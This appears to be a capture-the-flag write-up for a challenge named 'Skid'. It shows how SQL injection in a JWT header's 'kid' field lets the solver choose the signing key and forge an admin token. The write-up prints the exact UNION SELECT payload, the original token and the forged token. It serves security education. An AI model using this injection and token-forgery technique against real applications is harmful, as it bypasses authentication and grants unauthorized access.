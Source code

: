 # Skid

This was a hacking blog with a sign in page. Even if you are not signed in, there is a cookie named `skidtoken` containing a JWT:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6InNraWQifQ.eyJ1c2VybmFtZSI6InNraWQifQ.sacXoUrQCXpaylE4a4RGrCawHqBJJVGfOozOaPxQqOo
```

The header and payload sections decode to:
```json
{
  "typ": "JWT",
  "alg": "HS256",
  "kid": "skid"
}
```

```json
{
  "username": "skid"
}
```

Tampering with the `kid` value in the header reveals a SQL injection vulnerability.

![SQL error](skid_sql_error.PNG)

Adding values to the UNION shows that there are three columns returned by the query. If we UNION the query with arbitrary string values, we can sign the JWT with whatever we want.

Final header and payload sections:
```json
{
  "typ": "JWT",
  "alg": "HS256",
  "kid": "aaaaaaa' UNION SELECT 'key','key','key';--"
}
```

```json
{
  "username": "admin"
}
```

Signing with the value `key` yields the new JWT:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6ImFhYWFhYWEnIFVOSU9OIFNFTEVDVCAna2V5Jywna2V5Jywna2V5JzstLSJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.EUb8sJ26d9T8QwkKL523ikI2CDEdPXLYl7s2P-KSLfk
```

Replace the `skidtoken` cookie with the new JWT and refresh the page to see the flag.

![Skid app with flag](skid.PNG)

`flag{sqli_jwt_neq_skid_stuff} `
